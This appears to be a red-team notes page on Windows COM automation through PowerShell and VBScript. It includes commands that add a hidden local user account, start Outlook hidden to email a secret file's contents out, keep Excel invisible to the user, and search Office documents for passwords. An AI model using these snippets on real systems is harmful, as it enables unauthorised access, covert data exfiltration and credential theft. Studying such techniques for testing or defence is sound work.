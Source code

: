# COM objects
---
# Navigation
- **[[#List all COM objects]]**
- **[[#invoke COM objects]]**
- **[[#Using VBScript to create COM objects]]**
- **[[#Automating sending emails via Outlook]]**
- **[[#Automating Microsoft Excel using COM]]**
- **[[#Searching through Office documents using COM automation]]**
---
## List all COM objects
```powershell
# One-liner from stackoverflow
gci HKLM:\Software\Classes -ea 0| ? {$_.PSChildName -match '^\w+\.\w+$' -and (gp "$($_.PSPath)\CLSID" -ea 0)} | ft PSChildName
```
## invoke COM objects
```powershell
$shell = New-Object -com Shell.Application
```
- List objects
```powershell
$shell | Get-Member
```
- Invoke commands (examples)
```powershell
$shell.Open("c:\windows")
$shell.ShellExecute("net","user abuqasem s3cretP@WD /add")
$shell.ShellExecute("net","user abuqasem /del")
```
## Using VBScript to create COM objects
Using VBScript, we can also create COM objects and interact with them with just a few lines of code. VBScript is commonly used by **real-world malware**
1. Create a file using your favorite text editor and name it **comdemo.vbs**.
2. Then add the following two lines to the file:
```powershell
set shell = CreateObject("Shell.Application")
shell.Open("c:")
```
3. Save the file and execute it via cscript:
```powershell
cscript.exe comdemo.vbs
#or -> . ./comdemo.vbs
```
5. If everything worked as expected, you will see an Explorer Shell pop up.

## Automating sending emails via Outlook
- Making sure it's running
```powershell
$isRunning = Get-Process | where {$_.ProcessName -eq "outlook"} ; if ($isRunning -eq $null) { Start-Process Outlook -WindowStyle Hidden }
```
- Sending mail
```powershell
$to = ""
$subject = "Secret Document"
$content = cat secretfile.txt
$outlook = new-object -com Outlook.Application
$mail = $outlook.CreateItem(0)
$mail.subject = $subject
$mail.To = $to
$mail.HTMLBody = $content
$mail.Send()
```
- Searching inboxes for passwords and secrets
```powershell
# TODO !
```
## Automating Microsoft Excel using COM
The preceding commands will launch Excel and show it on the desktop if we set **Visible = $true**. If you want to have the application stay unnoticed by the user, keep the default as **Visible = $false**.
```powershell
$excel = new-object -com Excel.Application
$excel.Visible = $true
```
Next, let's add a workbook to the newly opened Excel application and write content into the sheet:
```powershell
$workbook = $excel.Workbooks.Add()
$cell = $workbook.ActiveSheet.Cells(1,1)
$cell.Value = "Here goes the secret message!"
$workbook.Password = "Test"
$workbook.SaveAs("HomefieldAdvantage")
$workbook.Close()
$excel.Quit()
```
We can combine the Outlook and Excel examples by sending the password-protected file over email using the following snippet:
```powershell
$to = ""
$subject = "Secret Document"
$content = "Important message attached."
$outlook = new-object -com Outlook.Application
$mail = $outlook.CreateItem(0)
$mail.Attachments.Add("HomefieldAdvantage")
$mail.subject = $subject
$mail.To = $to
$mail.HTMLBody = $content
$mail.Send()
```
> Alternatively you can use Excel's built-in sendmail: https://docs.microsoft.com/en-us/office/vba/api/excel.workbook.sendmail

## Searching through Office documents using COM automation
- Searching through word docs for passwords using [**Search-Word**](https://github.com/wunderwuzzi23/searchutils/blob/master/Search-OfficeDocuments.ps1)
```powershell
Search-Word <Document> -Pattern "<Filter>" | Format-Table
# Search recursively
gci -recurse *.docx | Search-Word -Pattern "<Filter>" | Format-Table

# By default the filter value is: "password"
```
Same goes for  **`Search-OfficeDocuments`** and **`Search-Excel`** functions in the script above.